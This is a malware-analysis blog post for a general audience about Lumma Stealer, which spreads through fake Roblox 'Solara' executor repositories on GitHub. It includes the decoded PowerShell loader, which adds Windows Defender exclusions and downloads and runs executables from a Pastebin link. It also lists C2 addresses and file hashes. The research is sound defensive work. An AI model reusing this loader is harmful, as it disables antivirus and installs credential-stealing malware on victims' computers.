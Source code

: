 ## Introduction

![](https://miro.medium.com/v2/resize:fit:468/1*gTVaPjykGnyo4wzPFbRKyg.png)

*Disclaimer: This content is intended for educational and research purposes only. Do not download or interact with malware without appropriate safeguards and precautions.*

To bridge the technical gap on malware for non-technical audiences, this is the first in a series I like to call 'Malware in the Wild.' I will provide additional context that may be lost on those without a technical background in computers. Malware comes in various forms, and the objectives of the threat group can also vary. Oftentimes, it is not to destroy the victim’s computer.

## Brief Overview

[Lumma Stealer](https://www.microsoft.com/en-us/security/blog/2025/05/21/lumma-stealer-breaking-down-the-delivery-techniques-and-capabilities-of-a-prolific-infostealer/) (Lumma) is an infostealer malware that has gained popularity among financially motivated threat actors. This malware targets saved browser credentials (such as autofill), cryptocurrency wallets, and harvests documents on a victim’s computer. Lumma’s model is an affiliate program (also known as Malware-as-a-Service), where malware developers sell the code and even the infrastructure to threat actors, also known as affiliates. Essentially, our threat actors outsource the technical part of stealing from victims. Hell, there is even [customer support](https://www.esentire.com/blog/the-case-of-lummac2-v4-0) for this program.

![](https://miro.medium.com/v2/resize:fit:468/1*78nfrQDOwL2cDbqacEPbkg.png)

Lumma experienced a recent [setback](https://blogs.microsoft.com/on-the-issues/2025/05/21/microsoft-leads-global-action-against-favored-cybercrime-tool/) due to Operation Endgame, which impacted Lumma’s infrastructure by seizing 2,300 domains. The FBI even contacted the affiliates with this message:

![](https://miro.medium.com/v2/resize:fit:436/1*cg0EYGNhFlruSK9e4fmN5A.png)

But despite this seizure and uncovering of affiliates, Lumma [persists](https://theravenfile.com/2025/05/23/lumma-stealer-still-active-after-fbi-crackdown/).

## Hunting for Lumma

So, how do we find Lumma in the wild? I came across a [video](https://youtu.be/CoUUJqhKElQ?si=iqbdivye9mdpzv4p&t=1062) where the researcher analyzes the Lumma he saw on a GitHub page for a Roblox hack. I used Solara as the keyword for my search. It made perfect sense why. Say you (the reader) are super savvy about the tricks pulled by threat actors to gain access to your computer. What about your kids? The desire to win or bypass a video game will trump any hypothetical security talks you would have with them.

Think of finding Malware in the wild as hunting. We can do some Google Dorking to cast a net. Google Dorking is a more refined search tool in Google. It looks something like this: site:github.io solara. Through some searching, I refine my rule, and I find hxxxs://github[.]com/russtha1n/SolaraExecutor.

![](https://miro.medium.com/v2/resize:fit:700/1*BPIQGLqcuvQBVi7FHa9cHw.png)

We will focus on this page, but I want to establish a rule for hunting since the GitHub page will be taken down eventually, and I want to monitor this activity in the future. Our threat actor likes to tag their GitHub page with a bunch of topics:

```
roblox-script-execution-free-new  
roblox-hack-download-free-2025  
roblox-lua-executors-fresh  
roblox-hack-best-2025-free  
roblox-executor-for-pc-github  
roblox-executor-pc-github-2025  
roblox-executor-fresh-one  
roblox-hack-download-github-2025  
solara-executor-free-latest-2025  
roblox-executers-2025-github-new  
roblox-executer-latest-update-2025
```
I found [roblox-script-execution-free-new](https://github.com/topics/roblox-script-execution-free-new?o=desc&s=updated) to have the most results with 73 pages. Another thing to note about these pages is ChatGPT wrote them. The structure and phrasing read very AI-like.

![](https://miro.medium.com/v2/resize:fit:700/1*WtI4uimHBvscbZKgox1aAg.png)

I have also found that these GitHub pages instruct the victim to create exclusion rules for antivirus software to ensure it works. That is the kiss of death for any software. That lets the malware roam free.

## Malware Analysis

But now that we know one of the ways our affiliate can gain initial access to a victim’s computer…what does it do?

Malware analysis is very challenging to translate into a broad audience. It requires knowledge about systems, networks, and programming. I will review the broad strokes of what is happening when Lumma is running and utilize the MITRE ATT&CK framework for the attack chain.

I will be using a sandbox environment from [Any Run](https://any.run/), as it streamlines the analysis and, most importantly, it is free.

For reference, here is a visual of the attack chain:
![](https://miro.medium.com/v2/resize:fit:700/1*XU5Zw5LKLmaCtAWO9N9ORQ.png)

## PowerShell for Command Execution (T1059.001)

I downloaded Solara V3.exe, and when I executed the program, it ran a PowerShell script, but it did so discreetly. Threat actors often obfuscate their scripts by encoding them in Base64. Here is what it looks like:

![](https://miro.medium.com/v2/resize:fit:700/1*Mc8PyFrXN1jsSHozX0XmnA.png)

Yeah, we aren’t going to be able to read that…but our computers can. A popular tool to decode this string is [CyberChef](https://cyberchef.io/). And this is our result:

```
# Start a hidden PowerShell process to display a message box
Start-Process powershell -WindowStyle Hidden -ArgumentList @"
Add-Type -AssemblyName System.Windows.Forms;
[System.Windows.Forms.MessageBox]::Show('', '', 'OK', 'Error');
"@

# Add exclusions to Windows Defender
Add-MpPreference -ExclusionPath @($env:UserProfile, $env:SystemDrive) -Force

# Download files from a Pastebin URL and execute them
$wc = New-Object System.Net.WebClient
$lnk = $wc.DownloadString('https://pastebin.com/raw/rkwztbjh').Split("`r`n")

# Generate a random file name prefix
$fn = [System.IO.Path]::GetRandomFileName()

# Download and execute each file
for ($i = 0; $i -lt $lnk.Length; $i++) {
    $filePath = Join-Path -Path $env:AppData -ChildPath ($fn + $i.ToString() + '.exe')
    $wc.DownloadFile($lnk[$i], $filePath)
    Start-Process -FilePath $filePath
}
```

Lumma starts a hidden PowerShell process so the victim doesn’t see what it is doing. It then creates an antivirus exclusion for the entire system drive and the user profile. Then, it downloads and executes another file from Pastebin. hxxxs://pastebin[.]com/raw/rkwztbjh. This site redirects to a GitHub page: hxxxs://github[.]com/comeppr1/narc1/raw/refs/heads/main/stub1.exe. The script renames the file with random characters; in our case, it is called o4ypv3f0.crd0.exe.

This file holds the Lumma malware payload.

## Software Discovery and C2 communication (T1012, T1518, T1102)

The file we downloaded starts a new process called MSBuild.exe. Which seems legitimate on the surface. However, this process searches for installed software, the computer's name, supported languages, and software policies. It also creates a communication channel through Telegram and the Command and Control (C2) server. In this case, our Lumma was talking to Telegram through IP 149.154.167[.]99. The C2 server channel is at 195.82.147[.]188 with a domain name swenku[.]xyz.

When we reference that IP on VirusTotal, we confirm our suspicion that this malware is communicating with a C2 server. If a C2 server has a persistent connection, it can execute commands and exfiltrate whatever information it is looking to steal.

![](https://miro.medium.com/v2/resize:fit:700/1*LbXqF1XB_2TmfXrEzMt3Fg.png)

## Conclusion

Lumma is a very active threat in the wild. The use of malware masquerading as Roblox hacks should be concerning to anyone with children. This is only one case that I uncovered, and I have no doubt that it affects other video games, such as Fortnite and Minecraft. This Malware is designed to be quiet with the antivirus exclusions. My recommendation to prevent this from impacting potential victims is to ensure your Windows profile is not set to be an administrator. The administrator account should only be used on a per-need basis instead of perpetually. However, since it is the default account, many people continue to use it. The PowerShell script I uncovered earlier has no traction if you are not using an administrator account.

## IOCs

```
hxxxs://github[.]com/russtha1n/SolaraExecutor  
  
Solara V3.exe  
fb45131709af13a9b64f8adf315277787a5352d4636e28cd940f502436a9f1f2  
  
stub1.exe  
4ad66310e5539efdde327df436d1f678f0ec1c1acadcde7a59a7e0401fd9a220  
  
hxxxs://github[.]com/comeppr1/narc1/raw/refs/heads/main/stub1.exe  
  
hxxxs://pastebin[.]com/raw/rkwztbjh  
  
swenku[.]xyz  
140.82.121[.]4  
104.22.69[.]199  
195.82.147[.]188
```